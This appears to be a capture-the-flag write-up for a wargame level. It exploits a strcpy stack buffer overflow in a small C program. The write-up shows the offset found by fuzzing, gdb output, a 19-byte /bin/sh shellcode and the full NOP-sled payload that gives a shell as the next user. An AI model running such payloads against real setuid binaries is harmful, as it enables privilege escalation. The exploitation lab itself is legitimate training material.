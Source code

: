 # Level1 pwnage Linux level1 - Challenge 80

level1.c is using strcpy without checking for the input length

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[1024];

    strcpy(buf, argv[1]);
    return 0;
}
```

Let's check how much data we need to push on the stack before we overwrite the return address:

```
level1@rzt-bin01:/levels$ ./level1 `python -c 'print "A" * 1028'`
level1@rzt-bin01:/levels$ ./level1 `python -c 'print "A" * 1029'`
level1@rzt-bin01:/levels$ ./level1 `python -c 'print "A" * 1030'`
level1@rzt-bin01:/levels$ ./level1 `python -c 'print "A" * 1031'`
level1@rzt-bin01:/levels$ ./level1 `python -c 'print "A" * 1032'`
level1@rzt-bin01:/levels$ ./level1 `python -c 'print "A" * 1033'`
level1@rzt-bin01:/levels$ ./level1 `python -c 'print "A" * 1036'`
Segmentation fault
```

```
(gdb) disass main
Dump of assembler code for function main:
   0x0804841c <+0>:     push   %ebp
   0x0804841d <+1>:     mov    %esp,%ebp
   0x0804841f <+3>:     and    $0xfffffff0,%esp
   0x08048422 <+6>:     sub    $0x410,%esp
   0x08048428 <+12>:    mov    0xc(%ebp),%eax
   0x0804842b <+15>:    add    $0x4,%eax
   0x0804842e <+18>:    mov    (%eax),%eax
   0x08048430 <+20>:    mov    %eax,0x4(%esp)
   0x08048434 <+24>:    lea    0x10(%esp),%eax
   0x08048438 <+28>:    mov    %eax,(%esp)
   0x0804843b <+31>:    call   0x8048300 <strcpy@plt>
   0x08048440 <+36>:    mov    $0x0,%eax
   0x08048445 <+41>:    leave
   0x08048446 <+42>:    ret
```

Let's set a breakpoint after ESP is decremented so we can see what the address is:

```
(gdb) break *main+12
Breakpoint 3 at 0x8048428: file level1.c, line 9.

(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level1 a

Breakpoint 1, 0x0804841f in main (argc=2, argv=0xbffff844) at level1.c:6
6
(gdb) i r
eax            0xbffff844       -1073743804
ecx            0xf355ed28       -212472536
edx            0x2      2
ebx            0xb7fd5ff4       -1208131596
esp            0xbffff798       0xbffff798
ebp            0xbffff798       0xbffff798
```

Let's check exploit-db for a shellcode...

Shellcode (19 bytes):
```
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

Our payload will be (NOPs x 1017 bytes) + Shellcode(19 bytes) + Return Address (4 bytes.) The return address must be in little endian format (need to flip the order of the four bytes).

```
level1@rzt-bin01:/levels$ ./level1 `python -c 'print "\x90" * 1017 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x98\xf7\xff\xbf"'`
$ whoami
level2
```

Once we have our shell, we can find the flag in /home/level2/.pass
